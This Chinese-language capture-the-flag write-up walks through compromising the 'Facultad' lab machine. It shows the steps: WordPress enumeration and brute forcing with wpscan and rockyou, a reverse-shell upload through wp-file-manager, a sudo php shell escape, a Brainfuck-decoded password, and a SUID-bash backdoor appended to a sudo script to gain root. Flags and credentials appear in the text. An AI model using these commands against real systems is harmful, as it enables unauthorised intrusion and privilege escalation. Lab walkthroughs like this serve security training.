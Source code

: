 # Facultad

2025.02.24 https://thehackerslabs.com/facultad/

[video](https://www.bilibili.com/video/BV1gHPWeDERV/?spm_id_from=333.1387.0.0&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

扫描目录发现 wordpress : http://192.168.5.40/education/ , 同时发现域名 facultad.thl 将其添加到 hosts 文件中，wpscan 进行扫描 http://facultad.thl/education/ ，发现用户 Facultad 和 facultad ，发现插件 akismet 和 wp-file-manager 但是这 2 个插件目前没漏洞。

```
wpscan --url http://facultad.thl/education/ -e u,ap,at,tt,cb --plugins-detection mixed
```

发现一张图片 http://192.168.5.40/images/facultad.jpg , steghide 查看存在隐写，进行解密：

```
steghide --extract -sf facultad.jpg
密码直接回车
wrote extracted data to "mensaje.txt".
```

内容翻译过来是：我将与你的邮政局联系。得到了 3 个用户名 mensaje、gabri 和 vivian ，尝试一下 hydra 简单密码爆破 ssh 没得到结果。

尝试用更大的字典 rockyou 爆破 wordpress 中的 facultad 用户的密码：

```
wpscan --url http://facultad.thl/education/ -U facultad -P /usr/share/wordlists/rockyou.txt -t 64
```

最终得到密码: asdfghjkl , 使用此密码登陆。尝试使用上传 zip 到 Theme 或者是到 Media 的方法都不行，提示文件夹无权限写入，只好看这个 wordpress 使用的 wp-file-manager 可以上传 php 文件，然后访问反弹 shell 脚本文件到 kali 上：

```
www-data@TheHackersLabs-facultad:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

先拿到了 user flag：

```
www-data@TheHackersLabs-facultad:/home/vivian$ cat user.txt
mcxvbniou345897hjbhjzx
```

sudo -l 显示 (gabri) NOPASSWD: /usr/bin/php 可以提权到 gabri：

```
sudo -u gabri php -r "system('/bin/bash');"
```

经过枚举发现邮件文件，就是前面那个 txt 中说的邮局联系你：

```
cat /var/mail/gabri/.password_vivian.bf

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>++++++++.-----------.+++++++++++++++.---------------.+++++++++++++++++++.--.---.-.-------------.<<++++++++++++++++++++.--.++.+++.
```

Brainfuck 解码得到: lapatrona2025

应该是一个用户的密码，看看是哪个用户的，发现是 vivian 用户的，ssh 进行登陆，再次 sudo -l 发现 (ALL) NOPASSWD: /opt/vivian/script.sh 直接覆盖文件内容提权到 root：

```
echo 'cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash' >> /opt/vivian/script.sh
sudo -u root /opt/vivian/script.sh
```

最后得到 root flag:

```
vivian@TheHackersLabs-facultad:~$ /tmp/rootbash -p
rootbash-5.2# cd /root
rootbash-5.2# ls
root.txt
rootbash-5.2# cat root.txt
nbfgjyui4r57834sdbhjcvhz
```

